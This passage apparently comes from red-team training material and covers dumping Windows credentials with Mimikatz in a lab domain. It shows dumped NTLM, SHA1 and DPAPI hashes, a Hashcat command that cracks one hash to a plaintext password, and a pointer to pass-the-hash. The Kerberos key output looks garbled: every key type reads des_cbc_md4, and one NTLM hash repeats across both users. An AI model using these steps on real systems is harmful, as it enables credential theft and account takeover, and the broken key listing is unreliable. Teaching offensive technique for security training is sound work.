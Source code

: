 ```batch
	msv :	
	 [00000003] Primary
	 * Username : rsteel
	 * Domain   : CONTOSO
	 * NTLM     : fc525c9683e8fe067095ba2ddc971889
	 * SHA1     : e53d7244aa8727f5789b01d8959141960aad5d22
	 * DPAPI    : c249dfed28f9c95fa91792eed37d2444
```

These can be cracked using hash mode 1000 in Hashcat.

```batch
PS C:\Tools\hashcat> .\hashcat.exe -a 0 -m 1000 .\ntlm.hash .\example.dict -r .\rules\dive.rule
fc525c9683e8fe067095ba2ddc971889:Passw0rd!
```

Or they can be used with the [pass-the-hash](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops\&unit=6731fbc37399aa8c4905789c) technique.

#### Kerberos Keys <a href="#el_1739533726510_519" id="el_1739533726510_519"></a>

Mimikatz's `sekurlsa::ekeys` command will dump user's Kerberos encryption keys.

```batch
User Name         : pchilds
Domain            : CONTOSO
Logon Server      : LON-DC-1
Logon Time        : 17/02/2025 09:45:28
SID               : S-1-5-21-3926355307-1661546229-813047887-1105

	 * Username : pchilds
	 * Domain   : CONTOSO.COM
	 * Password : (null)
	 * Key List :
	   des_cbc_md4       7fae91afb4f60917ffa16c09283f3978ac71dff4e34d738d268bb49311f6c77d
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889

User Name         : rsteel
Domain            : CONTOSO
Logon Server      : LON-DC-1
Logon Time        : 17/02/2025 09:53:40
SID               : S-1-5-21-3926355307-1661546229-813047887-1108

	 * Username : rsteel
	 * Domain   : CONTOSO.COM
	 * Password : (null)
	 * Key List :
	   des_cbc_md4       05579261e29fb01f23b007a89596353e605ae307afcd1ad3234fa12f94ea6960
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
	   des_cbc_md4       fc525c9683e8fe067095ba2ddc971889
```
